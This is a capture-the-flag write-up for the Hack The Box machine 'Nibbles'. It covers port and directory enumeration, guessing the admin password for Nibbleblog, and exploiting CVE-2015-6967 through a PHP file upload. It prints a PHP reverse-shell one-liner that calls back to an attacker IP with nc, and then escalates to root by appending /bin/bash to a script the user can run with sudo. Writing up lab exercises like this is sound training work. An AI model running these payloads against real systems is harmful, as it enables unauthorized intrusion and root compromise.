

# Hackthebox - Nibbles

- Linux

  

- [Box on HTB](https://app.hackthebox.com/machines/Nibbles)

## Nmap

```bash
sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.75 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-10 17:33 EST
Nmap scan report for 10.10.10.75
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/10%OT=22%CT=1%CU=30372%PV=Y%DS=2%DC=I%G=Y%TM=63E6C67
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.58 seconds

```

## Port 80

- If we browse there we have an hello world.
- If we check the source code, we have an interesting comment


- This brings us here  


- Let's see what info we have with whatweb  



### Enumerate dir in nibbleblog

```bash
┌─[gabrielle@parrot]─[~/Documents/nibbles]
└──╼ $gobuster dir -u http://10.10.10.75/nibbleblog/ --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/11 08:07:07 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                          
/.htaccess            (Status: 403) [Size: 306]                                           
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                              
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]   
                                                                                              
===============================================================
2023/02/11 08:07:22 Finished
===============================================================
```

- Admin

  

- Readme


- Content


- Plugins


- Thèmes


- Admin.php


- We also find multiple xml files. The users.xml and config.xml seem interesting

- Users

```xml
<users>
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1514544131</session_date>
</user>
<blacklist type="string" ip="10.10.10.1">
<date type="integer">1512964659</date>
<fail_count type="integer">1</fail_count>
</blacklist>
</users>
```

- Config

```xml
<config>
<name type="string">Nibbles</name>
<slogan type="string">Yum yum</slogan>
<footer type="string">Powered by Nibbleblog</footer>
<advanced_post_options type="integer">0</advanced_post_options>
<url type="string">http://10.10.10.134/nibbleblog/</url>
<path type="string">/nibbleblog/</path>
<items_rss type="integer">4</items_rss>
<items_page type="integer">6</items_page>
<language type="string">en_US</language>
<timezone type="string">UTC</timezone>
<timestamp_format type="string">%d %B, %Y</timestamp_format>
<locale type="string">en_US</locale>
<img_resize type="integer">1</img_resize>
<img_resize_width type="integer">1000</img_resize_width>
<img_resize_height type="integer">600</img_resize_height>
<img_resize_quality type="integer">100</img_resize_quality>
<img_resize_option type="string">auto</img_resize_option>
<img_thumbnail type="integer">1</img_thumbnail>
<img_thumbnail_width type="integer">190</img_thumbnail_width>
<img_thumbnail_height type="integer">190</img_thumbnail_height>
<img_thumbnail_quality type="integer">100</img_thumbnail_quality>
<img_thumbnail_option type="string">landscape</img_thumbnail_option>
<theme type="string">simpler</theme>
<notification_comments type="integer">1</notification_comments>
<notification_session_fail type="integer">0</notification_session_fail>
<notification_session_start type="integer">0</notification_session_start>
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
<seo_site_description type="string"/>
<seo_keywords type="string"/>
<seo_robots type="string"/>
<seo_google_code type="string"/>
<seo_bing_code type="string"/>
<seo_author type="string"/>
<friendly_urls type="integer">0</friendly_urls>
<default_homepage type="integer">0</default_homepage>
</config>
```

- This confirm that a user named admin exist.
- We can not bruteforce because of the IP blacklist that is set as a protection.
- The word nibbles frequently comes back. Let's try it as a password for admin. It works.

  

- While looking for info on nibbleblog we found a CVE: `CVE-2015-6967`
- It is also worth having a look around
- This way we find a plugin "My image" that allows us to upload files


- Let's try to upload a php file and see if it gets executed. Here is our php file


- The file seems to be uploaded when we explored the files previously there was a content directory, so our file is probably there somewhere let's have a look. Yes there is a new image.php file here


- And our command (ls) works, we have command execution!


- We could do a webshell. But let's try for a reverse shell.
- Let's edit our previous file `<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444) >/tmp/f'); ?>`


- We now need to set a listener `rlwrap nc -lnvp 4444`
- We get a shell
- We can make it a little better with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and grab the user flag.

- Along with the flag we have zip `personal.zip` that seems interesting for later.


## Privilege escalation

- Let's have a look at the zip file. There is stuff folder with a bash script inside

  

- Using `sudo -l` we see that we are able to run it as root


- Let's add this in our script this will launch bash as root and should allow us to get root `/bin/bash` `echo '/bin/bash' | tee -a /home/nibbler/personal/stuff/monitor.sh`.
- Indeed if we `sudo /home/nibbler/personal/stuff/monitor.sh` we get root and can grab the last flag


